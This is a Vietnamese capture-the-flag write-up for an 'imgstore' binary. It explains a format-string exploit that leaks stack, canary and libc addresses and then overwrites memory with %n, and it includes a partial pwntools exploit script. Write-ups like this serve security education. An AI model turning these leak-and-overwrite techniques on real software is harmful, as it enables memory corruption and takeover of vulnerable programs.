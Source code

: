 ![image](https://hackmd.io/_uploads/B1EmKEl2R.png)
- Thấy được đầu stack có giá trị `0x55555555a060` có ofset với địa chỉ của `0xfeedbeef` là `0x10` nên ta leak được giá trị đầu stack trừ 0x10 
![image](https://hackmd.io/_uploads/SyhqpVx3A.png)
- Ta đã leak được các giá trị cần thiết 
- Sau đó dùng `%c` và `%n` để đổi giá trị 
![image](https://hackmd.io/_uploads/Hkw5xSl3R.png)
- Ta thấy trên stack có địa chỉ của một lệnh trong libc nằm ở `rbp + 0x38` để có địa chỉ libc ta cần tìm ofset này với địa chỉ cơ sở của libc khi ta leak địa chỉ này trừ cho ofset là ra địa chỉ cơ sở libc
![image](https://hackmd.io/_uploads/SkogbSlhA.png)
- Địa chỉ cơ sở tạm thời của libc tại `0x7ffff7dd5000`
> 0x7ffff7df9083 - 0x7ffff7dd5000 = 0x24083
- Sau có địa chỉ libc thì có cả canary tiến hành chiếm shell code
## Script
```python
#!/usr/bin/python3

from pwn import *

context.arch = "amd64"
context.endian = "little"

exe = ELF('./imgstore', checksec = False)
libc = ELF('./libc.so.6', checksec = False)

p = process(exe.path)
#p = remote("imgstore.chal.imaginaryctf.org", 1337, ssl=False)
input()
p.sendlineafter(b'>> ', b'3')

payload = b'%6$p.%7$p.%17$p.%25$p'


p.sendlineafter(b'Enter book title:', payload)

p.recvuntil(b'Book title --> ')
p.recv(2)
add = int(p.recv(12), 16)
add = add - 0x10
p.recv(3)
buf = int(p.recv(9), 16) & 0xFFFF
p.recv(3)
canary =  int(p.recv(16), 16) 
p.recv(3)
libc_address = int(p.recv(12), 16) - 0x24083


val_new = (buf*0x13f5c223) & 0xffffffff

log.info(hex(add))
log.info(hex(buf))
log.info(hex(canary))
log.info(hex(libc_address))


p.sendlineafter(b'Still interested in selling your book? [y/n]: ', b'y')


payload = fmtstr_payload(offset = 8, writes = {add:val_new}, write_size="short")
```